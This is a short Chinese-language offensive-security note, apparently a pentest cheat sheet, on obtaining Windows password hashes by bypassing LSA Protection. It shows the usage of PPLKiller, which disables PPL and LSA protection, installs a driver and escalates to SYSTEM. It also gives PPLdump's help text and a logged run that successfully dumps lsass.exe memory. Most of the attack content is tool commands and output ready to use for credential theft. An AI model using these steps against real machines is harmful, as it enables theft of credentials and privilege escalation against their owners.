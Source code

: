 ## 获取hash

### LSAProtection Bypass

#### 使用mimikatz自带
!+

从未成功过

#### PPLKiller

```
c:\Users\Public\Downloads>PPLKiller.exe
PPLKiller.exe
PPLKiller version 0.2 by @aceb0nd
Usage: PPLKiller.exe
 [/disablePPL <PID>]
 [/disableLSAProtection]
 [/makeSYSTEM <PID>]
 [/makeSYSTEMcmd]
 [/installDriver]
 [/uninstallDriver]
```

#### PPLDump

```
PPLdump.exe
 _____ _____ __      _               
|  _  |  _  |  |   _| |_ _ _____ ___ 
|   __|   __|  |__| . | | |     | . |  version 0.4
|__|  |__|  |_____|___|___|_|_|_|  _|  by @itm4n
                                |_|  

Description:
  Dump the memory of a Protected Process Light (PPL) with a *userland* exploit

Usage: 
  PPLdump.exe [-v] [-d] [-f] <PROC_NAME|PROC_ID> <DUMP_FILE>

Arguments:
  PROC_NAME  The name of a Process to dump
  PROC_ID    The ID of a Process to dump
  DUMP_FILE  The path of the output dump file

Options:
  -v         (Verbose) Enable verbose mode
  -d         (Debug) Enable debug mode (implies verbose)
  -f         (Force) Bypass DefineDosDevice error check

Examples:
  PPLdump.exe lsass.exe lsass.dmp
  PPLdump.exe -v 720 out.dmp
  
C:\Users\Public\Downloads>PPLdump.exe lsass.exe lsass.dump
PPLdump.exe lsass.exe lsass.dump
[+] Dump successfull! :)


```
